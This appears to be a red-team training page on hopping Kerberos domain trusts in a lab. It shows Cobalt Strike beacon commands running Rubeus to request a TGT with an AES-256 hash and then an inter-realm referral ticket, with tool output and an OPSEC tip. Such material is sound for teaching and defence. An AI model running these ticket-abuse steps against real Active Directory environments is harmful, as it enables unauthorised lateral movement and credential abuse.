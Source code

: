 To hop a domain using Kerberos, we first need an inter-realm key.

**Obtain a TGT for the target user (here, I am using `asktgt` with their AES-256 hash):**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFwj[...]MuaW8=
```

**Next, we can use that TGT to request a referral ticket from the current domain in the target domain:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/dev-studio.com'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[+] TGS request successful!
[*] base64(ticket.kirbi):

doIFoz[...]NPTQ==

ServiceName              :  krbtgt/DEV-STUDIO.COM
ServiceRealm             :  DEV.CYBERBOTIC.IO
UserName                 :  nlamb
UserRealm                :  DEV.CYBERBOTIC.IO
StartTime                :  9/12/2022 11:13:23 AM
EndTime                  :  9/12/2022 9:11:21 PM
RenewTill                :  9/19/2022 11:11:21 AM
Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
KeyType                  :  rc4_hmac
Base64(key)              :  zfUbwA2B0+aqao7HSvnUgw==
```

{% hint style="info" %}
Notice how this inter-realm ticket is of type <mark style="color:yellow;">`rc4_hmac`</mark> even though our TGT was <mark style="color:yellow;">`aes256_cts_hmac_sha1`</mark>. &#x20;

This is the default configuration unless AES has been specifically configured on the trust, so this is not necessarily bad OPSEC.
{% endhint %}
